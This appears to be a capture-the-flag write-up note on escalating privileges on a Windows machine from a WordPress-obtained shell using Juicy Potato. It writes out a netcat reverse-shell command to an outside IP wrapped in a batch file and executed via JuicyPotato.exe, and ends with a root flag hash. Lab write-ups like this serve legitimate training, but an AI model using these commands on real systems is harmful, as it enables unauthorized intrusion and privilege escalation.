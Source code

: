 with the low level shell got from wordpress site

`whoami /priv`

![[Pasted image 20210529182604.png]]

PrintSpoofer does not work here

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#juicy-potato-abusing-the-golden-privileges

https://medium.com/r3d-buck3t/impersonating-privileges-with-juicy-potato-e5896b20d505


here juicy potato might work but not for Windows Server 2019 and Windows 10 1809 +.

so checking 
![[Pasted image 20210529184759.png]]

and it should work fine 

get the binary from https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe

and transfer the netcat (nc.exe) binary too

```
echo C:\temp\nc.exe -e cmd.exe 10.17.4.208 9001 > rev.bat

JuicyPotato.exe -p C:\temp\rev.bat -l 9001 -t *
```

![[Pasted image 20210529190324.png]]

![[Pasted image 20210529190408.png]]

![[Pasted image 20210529190419.png]]


![[Pasted image 20210529190534.png]]

root === 7958b569565d7bd88d10c6f22d1c4063